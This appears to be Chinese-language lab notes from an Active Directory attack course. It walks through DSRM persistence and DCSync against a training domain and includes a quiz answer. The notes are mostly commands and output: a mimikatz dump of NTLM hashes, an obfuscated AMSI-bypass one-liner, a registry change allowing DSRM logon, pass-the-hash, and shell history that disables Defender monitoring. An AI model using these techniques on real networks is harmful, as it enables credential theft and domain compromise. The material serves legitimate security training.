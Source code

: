 mimikatz(powershell) # lsadump::lsa /patch
Domain : dcorp / S-1-5-21-1874506631-3219952063-538504511

RID  : 000001f4 (500)
User : Administrator
LM   :
NTLM : af0686cc0ca8f04df42210c9ac980760

(略)
```
新的密码是：```af0686cc0ca8f04df42210c9ac980760```

DSRM administrator不允许登陆，用之前的session进入DC修改
```
PS C:\ad> Enter-PSSession $sess
[dcorp-dc.dollarcorp.moneycorp.local]: PS C:\Users\svcadmin\Documents> S`eT-It`em ( 'V'+'aR' + 'IA' + ('blE:1'+'q2') + (
'uZ'+'x') ) ([TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( Get-varI`A`BLE (('1Q'+'2U') +'zX' ) -VaL )."A`ss`Embly"."GET`TY`Pe"(("{6
}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em') ) ).
"g`etf`iElD"( ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile') ),( "{2}{4}{0}{1}{3}" -f('S'+'tat'),'i',('Non'+'Publ'+
'i'),'c','c,' ))."sE`T`VaLUE"( ${n`ULl},${t`RuE} )
```

运行下面命令，修改DSRM的远程登录策略
```
[dcorp-dc.dollarcorp.moneycorp.local]: PS C:\Users\svcadmin\Documents> New-ItemProperty "HKLM:\System\CurrentControlSet\
Control\Lsa\" -Name "DsrmAdminLogonBehavior" -Value 2 -PropertyType DWORD


DsrmAdminLogonBehavior : 2
PSPath                 : Microsoft.PowerShell.Core\Registry::HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\Lsa\
PSParentPath           : Microsoft.PowerShell.Core\Registry::HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control
PSChildName            : Lsa
PSDrive                : HKLM
PSProvider             : Microsoft.PowerShell.Core\Registry
```

现在用DSRM的原始哈希，来运行一个有DA权限的shell
```
Invoke-Mimikatz -Command '"sekurlsa::pth /domain:dcorp-dc /user:Administrator /ntlm:a102ad5753f4c441e3af31c97fad86fd /run:powershell.exe"'
```


问题： Name of the Registry key modified to change Logon behavior of DSRM administrator
答案： DsrmAdminLogonBehavior

# Learning Objective 12:

> Task
> ● Check if studentx has Replication (DCSync) rights.
> ● If yes, execute the DCSync attack to pull hashes of the krbtgt user.
> ● If no, add the replication rights for the studentx and execute the DCSync attack to pull hashes of the krbtgt user.

## Dcsync 攻击

新开一个学生shell（没有DA权限），查找当前账号是否有DCSync的权限
```
PS C:\ad> . .\PowerView.ps1
PS C:\ad> Get-ObjectAcl -DistinguishedName "dc=dollarcorp,dc=moneycorp,dc=local" -ResolveGUIDs | ?{($_.IdentityReference -match "student366") -and (($_.ObjectType -m
atch'replication') -or ($_.ActiveDirectoryRights -match 'GenericAll'))}
```

```

[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Users\student366\Documents> whoami
[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Users\student366\Documents> ipconfig
[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Users\student366\Documents> whoami /all
[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Users\student366\Documents> powershell -ep bypass
[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Users\student366\Documents> S`eT-It`em ( 'V'+'aR' + 'IA' + ('blE:1'+'q2') + ('uZ'+'x') ) ([TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( Get-varI`A`B
[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Users\student366\Documents> $ExecutionContext.SessionState.LanguageModeConstrainedLanguage
[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Users\student366\Documents> Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections
[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Users\student366\Documents> Set-MpPreference -DisableRealtimeMonitoring $true -Verbose
[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Program Files> ls
[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Program Files> .\Invoke-Mimikatz2.ps1
[dcorp-dc.dollarcorp.moneycorp.local]: PS C:\Users\svcadmin\Documents> hostname
[dcorp-dc]: PS C:\Users\Administrator\Documents> S`eT-It`em ( 'V'+'aR' + 'IA' + ('blE:1'+'q2') + ('uZ'+'x') ) ([TYpE]( "{1}{0}"-F'F','r